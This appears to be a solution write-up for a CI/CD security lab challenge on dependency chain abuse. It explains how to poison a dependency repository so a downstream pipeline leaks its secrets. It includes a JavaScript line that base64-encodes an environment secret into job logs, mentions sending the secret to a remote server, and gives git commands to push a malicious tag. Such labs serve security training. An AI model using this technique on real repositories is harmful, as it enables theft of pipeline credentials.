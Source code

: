 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-03-Dependency-Chain-Abuse)

The _Wonderland/Twiddledum_ repository is a JS app that uses _Wonderland/Twiddledee_ as a dependency (view its _package.json_ file).

You have write access to the _Wonderland/Twiddledee_ repository. Use your access to modify it in order to exfiltrate pipeline credentials of projects using it.

Trying to add pre or post-install scripts with malicious code should fail, as the _Twiddledum_ pipeline runs with the `–-ignore-scripts` param.



1. Clone the _Wonderland/twiddledee_ repository.
2. Add the following line to _index.js_ to print it to the job’s console output (or send it to a remote server you control):

    ```javascript
    console.log(Buffer.from(process.env.FLAG6).toString("base64"))
    ```


3. Commit the changes to the main branch.
4. Create a new tag `1.2.0` for the last commit and push it (see [NPM's docs](https://docs.npmjs.com/cli/v9/configuring-npm/package-json#git-urls-as-dependencies) for further details on git version reference):
    ```bash
    git tag 1.2.0 HEAD
    git push origin 1.2.0
    ```
5. Manually trigger the _twiddledum_ pipeline.
6. Access the console output of the executed job to get the encoded secret.
![twiddledum](../images/twiddledum.png "twiddledum")
